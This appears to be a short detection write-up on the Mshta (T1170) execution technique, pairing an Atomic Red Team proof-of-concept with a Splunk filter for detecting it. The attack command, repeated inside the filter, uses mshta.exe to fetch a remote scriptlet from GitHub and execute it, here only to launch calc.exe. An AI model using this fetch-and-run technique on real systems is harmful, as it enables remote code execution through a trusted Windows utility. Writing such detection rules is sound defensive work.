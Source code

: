 #Mshta -- T1170

#Description

Mshta.exe is a Microsoft Utility that allows for the execution of HTML applications. An attacker can leverage mshta.exe to execute malicious .hta files and execute Javascript or VBScript using the trusted Windows Utility. Red Atomic/Canary provided a proof-of-concept for this ATT&CK Mitre Execution Technique. Here's an example command that leverages using mshta.exe to launch calc.exe

#Attack 

mshta.exe javascript:a=(GetObject('script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1170/mshta.sct')).Exec();close();

![mshta](https://user-images.githubusercontent.com/36422282/55601275-2a38fa00-572e-11e9-838d-f32599684b26.PNG)


*NOTE* This filter is specific and relates to the specific attack itself, as required to show correctnes within writing filters

#Splunk Filter

host="DESKTOP-EHTEINI" ParentCommandLine="mshta.exe  javascript:a=(GetObject('script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1170/mshta.sct')).Exec();close();"


![mshta](https://user-images.githubusercontent.com/36422282/55601319-5d7b8900-572e-11e9-9d96-5d4aefac4bc8.png)



